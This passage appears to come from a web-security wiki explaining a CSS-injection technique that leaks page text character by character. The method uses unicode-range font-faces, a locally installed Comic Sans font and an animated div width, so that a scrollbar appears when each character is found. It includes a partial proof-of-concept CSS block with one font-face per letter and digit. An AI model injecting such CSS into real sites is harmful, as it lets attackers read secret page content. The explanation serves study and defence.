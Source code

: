 The concept revolves around utilizing an animation to incrementally expand a `div`'s width, allowing one character at a time to transition from the 'suffix' part of the text to the 'prefix' part. This process effectively splits the text into two sections:

1. **Prefix**: The initial line.
2. **Suffix**: The subsequent line(s).

The transition stages of the characters would appear as follows:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**


During this transition, the **unicode-range trick** is employed to identify each new character as it joins the prefix. This is achieved by switching the font to Comic Sans, which is notably taller than the default font, consequently triggering a vertical scrollbar. This scrollbar's appearance indirectly reveals the presence of a new character in the prefix.

Although this method allows the detection of unique characters as they appear, it does not specify which character is repeated, only that a repetition has occurred.

{% hint style="info" %}
Basically, the **unicode-range is used to detect a char**, but as we don't want to load an external font, we need to find another way.\
When the **char** is **found**, it's **given** the pre-installed **Comic Sans font**, which **makes** the char **bigger** and **triggers a scroll bar** which will **leak the found char**.
{% endhint %}

Check the code extracted from the PoC:
```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
```